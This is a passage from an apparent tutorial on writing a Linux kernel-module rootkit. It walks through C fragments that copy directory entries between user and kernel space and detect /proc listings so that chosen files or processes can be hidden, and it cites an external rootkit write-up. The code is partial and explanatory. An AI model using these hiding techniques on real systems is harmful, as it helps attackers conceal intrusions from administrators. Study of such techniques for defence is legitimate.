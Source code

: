                    if (kdirent == NULL)
                           return ret;
                   
                   // Copying directory name (or pid name) from userspace to kernel space
                   err = copy_from_user(kdirent, dirent, ret);
                   if (err)
                      goto out;

                    ...

                   err = copy_to_user(dirent, kdirent, ret);

                   if (err)
                   {
                     goto out;
                   }

                   out:
                      kfree(kdirent);
                      return ret;
                   ```

                   Those kernel space and user space variables will mostly be used in `copy_from_user` and `copy_to_user` functions as we are going to pass arguments from _user space variable_ to _kernel space variable_ and vice-versa. Being in user space we can't read kernel space pointers/variables and vice-versa, that's the reason why `copy_from_user` and `copy_to_user` functions will be used.
                   In this scenario, `copy_from_user` is used to pass the name of the passed _directory name_ to kernel mode variable, _kdirent_ and then we will hide whatever we want to hide and lastly, we will send the output using `copy_to_user` to the user space variable, _dirent_.

                   For the case of ***kzalloc***, `GFP_KERNEL` is _GFP flag_ which is used for kernel-internal allocations, [source: elixir.bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/gfp.h#L245).

                   The last thing, which need explanation is the <ins>error part</ins>. If some error occurs, like sending <ins>wrong</ins> `pid` number to kernel space, we will free the allocated memory pointed by the kdirent pointer and would return the error which actually occured.

                   Next part:
                   ```c
                   // Storing the inode value of the required directory(or pid) 
                   d_inode = current->files->fdt->fd[fd]->f_path.dentry->d_inode;

                   if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev)
                            /*&& MINOR(d_inode->i_rdev) == 1*/)
                            proc = 1;
                    ...
                   ```
                   I paraphrased from [jm33.me](https://jm33.me/linux-rootkit-for-fun-and-profit-0x02-lkm-hide-filesprocs.html):
                   This piece of code checks if current `fd` points to proc fs, if yes, we say we are `ls`ing a `/proc` dir. `i_ino` is a inode number, representing its index number in linux vfs (virtual filesystem), `PROC_ROOT_INO` is defined as 1: [elixir.bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/proc_ns.h#L42).
                   ```c
                   /*
                    * We always define these enumerators
                    */
                    enum {
                      PROC_ROOT_INO		= 1,
                      PROC_IPC_INIT_INO	= 0xEFFFFFFFU,
                      PROC_UTS_INIT_INO	= 0xEFFFFFFEU,
                      PROC_USER_INIT_INO	= 0xEFFFFFFDU,
                      PROC_PID_INIT_INO	= 0xEFFFFFFCU,
                      PROC_CGROUP_INIT_INO	= 0xEFFFFFFBU,
                      PROC_TIME_INIT_INO	= 0xEFFFFFFAU,
                    };
                   ```